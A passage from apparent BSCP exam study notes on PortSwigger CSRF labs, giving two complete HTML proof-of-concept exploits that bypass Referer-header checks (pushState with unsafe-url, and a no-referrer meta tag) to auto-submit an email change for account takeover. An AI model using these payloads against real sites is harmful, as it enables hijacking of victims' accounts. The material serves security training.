 >Adding original domain of target and append `history.pushState('', '', '/?TARGET.net');` to the **Referer header** in the form of a query string, allow the change email to update.  

```html
Referrer-Policy: unsafe-url
```  

>**Note:** Unlike the normal Referer header spelling, the word **"referrer"** must be spelled correctly in the above `head` section of the exploit server.  

![Referer csrf](images/referer-csrf.png)  

>Create a CSRF proof of concept exploit and host it on the exploit server. Edit the JavaScript so that the third argument of the **history.pushState()** function includes a query string with target URL.  

```html
<html>
  <!-- CSRF PoC -  CSRF with broken Referer validation -->
  <body>
	<script>
		history.pushState('', '', '/?TARGET.net');
	</script>
    <form action="https://TARGET.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hacker&#64;exploit&#45;net" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```  

>When above exploit payload is delivered to victim, the CSRF POC payload changes the victim email to **hacker@exploit.net**, because the Referer header contained target in value. In ***BSCP*** exam take not of your ```hacker@exploit``` server email address to use in account takeover.  

[PortSwigger Lab: CSRF with broken Referer validation](https://portswigger.net/web-security/csrf/bypassing-referer-based-defenses/lab-referer-validation-broken)  
  
### Referer Header Present  

>In the update email request when changing the `referer` header the response indicate `Invalid referer header`, ***identifying*** CSRF vulnerability. Using the `<meta name="referrer" content="no-referrer">` as part of the exploit server CSRF PoC this control can be bypassed. This instruct the exploit server to Deliver Exploit to victim without `referer` header.  

```html
<html>
  <!-- CSRF PoC - CSRF where Referer validation depends on header being present -->
  <body>
<meta name="referrer" content="no-referrer">
    <form action="https://TARGET.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="administrator&#64;EXPLOIT&#46;NET" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```  
